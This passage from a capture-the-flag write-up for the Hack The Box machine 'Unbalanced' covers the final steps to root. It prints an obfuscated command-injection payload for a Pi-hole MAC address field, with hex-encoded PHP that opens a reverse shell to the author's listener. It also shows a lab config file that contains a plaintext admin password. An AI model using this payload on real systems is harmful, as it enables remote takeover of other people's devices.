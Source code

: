 ![Untitled](/img/htb-unbalanced/Untitled%2021.png)

With the example given in the Blog post, I created my payload.

```bash
aaaaaaaaaaaa&&W=${PATH#/???/}&&P=${W%%?????:*}&&X=${PATH#/???/??}&&H=${X%%???:*}&&Z=${PATH#*:/??}&&R=${Z%%/*}&&$P$H$P$IFS-$R$IFS'EXEC(HEX2BIN("706870202d72202724736f636b3d66736f636b6f70656e282231302e31302e31342e34222c31323334293b6578656328222f62696e2f7368202d69203c2633203e263320323e263322293b27"));'&&
```

I just Injected my payload in MAC Address and By clicking ( + ), They payload got triggered.

![Untitled](/img/htb-unbalanced/Untitled%2022.png)

And I got reverse shell in my netcat listener.

![Untitled](/img/htb-unbalanced/Untitled%2023.png)

As there was not much to check in the docker I quicky started checking the suspicious folder but nothing came. As a force of habit I tried to see if `/root` is accessible which to my surprise was, and doing so we had following files:-

```bash
# cd /root
# ls -la
total 132
drwxrwxr-x 1 root root   4096 Apr  5 20:19 .
drwxr-xr-x 1 root root   4096 Jul 30 05:13 ..
lrwxrwxrwx 1 root root      9 Apr  4 11:41 .bash_history -> /dev/null
-rw-r--r-- 1 root root    570 Jan 31  2010 .bashrc
-rw-r--r-- 1 root root    148 Aug 17  2015 .profile
-rw-r--r-- 1 root root 113876 Sep 20  2019 ph_install.sh
-rw-r--r-- 1 root root    485 Apr  6 07:28 pihole_config.sh
# cat pihole_config.sh
#!/bin/bash

# Add domains to whitelist
/usr/local/bin/pihole -w unbalanced.htb
/usr/local/bin/pihole -w rebalanced.htb

# Set temperature unit to Celsius
/usr/local/bin/pihole -a -c

# Add local host record
/usr/local/bin/pihole -a hostrecord pihole.unbalanced.htb 127.0.0.1

# Set privacy level
/usr/local/bin/pihole -a -l 4

# Set web admin interface password
/usr/local/bin/pihole -a -p 'bUbBl3gUm$43v3Ry0n3!'

# Set admin email
/usr/local/bin/pihole -a email admin@unbalanced.htb
#
```

We get the another password and a bunch of other pi-hole config values. Like always, I started testing the password in ssh, Failed and I did su from user bryan and Im root.

![Untitled](/img/htb-unbalanced/Untitled%2024.png)

We Own the Box!!